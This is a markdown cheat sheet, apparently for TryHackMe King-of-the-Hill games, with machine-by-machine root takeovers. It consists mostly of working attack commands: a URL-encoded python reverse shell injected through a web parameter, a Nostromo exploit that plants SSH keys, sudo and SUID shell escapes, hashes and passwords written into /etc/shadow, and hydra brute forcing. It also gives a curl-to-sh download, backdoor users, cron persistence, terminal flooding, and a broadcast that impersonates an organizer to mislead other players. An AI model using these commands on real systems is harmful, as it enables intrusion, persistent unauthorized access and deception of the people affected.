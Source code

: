 start up the in-browser machine a few minutes before game starts. It takes time.

# useful commands
/usr/bin/find all admin commands:

`find / -perm -u=s -type f 2>/dev/null`

run linPEAS.sh(tool that finds potential privilege escalation points)


`curl https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS | sh`  
find sudo commands
`sudo -l`
# notable places:  
/dev/urandom - infinite stream of random characters(usually whitespace and non-ascii)  
/dev/zero - infinite stream of zeroes  
/etc/sudoers - place that determines who is sudo  
/etc/shadow - password place   
/etc/passwd - place that stores users  
/root/king.txt - ideally it stays as Happygator  

# machines:
## food:  

food:givemecookies (telnet or ssh)  
ramen:noodlesRTheBest (ssh)  
pasta:pastaisdynamic  
sudo chmod -xs vim.basic  
afterwards stuff  
```
while :  
	do  
		sudo pkill -9 -u food  
		sudo pkill -9 -u bread  
		sudo pkill -9 -u tryhackme  
done  
```

profit  


## shrek:  
navigate to <ip>/Cpxtpt2hWCee9VFa.txt  
save the rsa key  
chmod 600 <filename>  
ssh -i <filename> shrek@<ip>  
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit  
be root  
copypaste these in place of shrek's account in /etc/shadow  
shrek:$6$RwIzHJ10kWpv2ynr$92aiv.epBTHF53gJSCgywTU6wAqGjuc1LP7gHaRKdJiKTAuOSHHLYFfZnTVI65U0PucUV7Dq/ntD0Nhcf5.yX1:18333:0:99999:7:::  
you now have shrek:onionshavelayers  
make shrek a sudoer  
sudo chmod 0000 /usr/bin/gdb  
cd .ssh  
rm *  
grab the flag if someone else hasn't already  
sudo systemctl stop httpd  
sudo systemctl stop tomcat  
afterwards stuff        




## space jam:  
```
ncat -lvnp 4444  
curl "<BOX_IP>:3000/?cmd=python%20-  c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<YOUR_MACHINE_IP>%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27"  
LFILE=/root/king.txt  
echo "Happygator" | cp /dev/stdin "$LFILE"  
```
you're king and root  
afterwards stuff  
```
systemctl stop easyaccess  
systemctl stop daemon  
```
change password  
```
killall node(make sure to ssh first)  
chmod /bin/cp 000      
```
???  
profit      

## production:  
navigate to `ftp://anonymous@<ip>:21`  
download id_rsa and the flag, put the flag in  
```
chmod 600 id_rsa
ssh -i id_rsa ashu@<ip>
sudo su skidy
sudo git -p help config
!/bin/sh
```
you have root now, become king
afterwards stuff
```
sudo chmod -sx /usr/lib/git-core/git
```

## Fortune:  
Requires: fcrackzip  
```
nc <BOX_IP> 3333  
```
Returns base 64 hash of a file.    
Go here https://base64.guru/converter/decode/file and get the zip file.  
```
fcrackzip -v -u -D -p <location of rockyou.txt> application.zip  
```
Open the zip with the password you got.  Should contain password for fortune account.  
```
ssh fortuna@<BOX IP>  
sudo pico /etc/sudoers  
```
Replace pico in sudoers file with ALL. (e.g. fortuna    ALL=(ALL:ALL) ALL)  
`sudo su`  
you're root  
stuff to do:   
	change password to fortuna.  
	Remove fortuna from /etc/sudoers and add another user that you have credentials for. 
	
## Lion:
Requires: cve2019-16278.py(file in github), Hydra

```ssh-keygen```

When generating the key, leave the passphrase empty.  This can be done beforehand.

`cat <Your Key Name>.pub` (e.g. cat keygen.pub)

```python2 cve2019_16278.py <KOTH IP> 8080 "mkdir /home/gloria/.ssh; echo '<YOUR *.pub file data>' > /home/gloria/.ssh/authorized_keys"```

Replace <YOUR \*.pub file data> with what you got from the cat.
```
ssh -i <YOUR ssh-keygen FILE> gloria@<KOTH IP> -p 1337 (e.g. ssh -i keygen gloria@<KOTH IP> -p 1337)
/usr/bin/tmux -S /.dev/session
```
You are Now ROOT

Flag Locations
```
/home/gloria/user.txt	 
/home/marty/user.txt	Reversed
/home/alex/user.txt	Rot13
/root/.flag	 
/opt/code/server.py	 
MySQL: db-> blog, table-> users, id-> 140	 
```
Brute force MYSQL Password with Hydra
```
hydra -l root -P /usr/share/wordlists/rockyou.txt <MACHINE_IP> mysql
```

PATCHING
1. Kill Nostromo, and replace with new server.
2. Apply LFI Patch on port 5555.
3. Patch insecure file upload.
4. Change password, do the usual things.


# afterwards stuff:  
sudo useradd technoblade(i typically use password neverdie)  
sudo usermod -aG sudo technoblade  
echo "banana" > /dev/pts/<0 through 9>  
cat /dev/urandom > /dev/pts/<everyone except you> &   
use social engineering wall  

## social engineering wall:
put this in a message.txt file
`This is Irvin. We accidentally used the wrong machine; so we're going to restart this KoTH with the correct machine in order to ensure all teams get a chance. I'll put the correct link once the new machine gets up and running.`
then do:
`sudo wall message.txt`

## script to stay king:
```
sudo crontab -e
```
when the editor pops up put this in and exit  
`* * * * * echo Happygator > /root/king.txt`



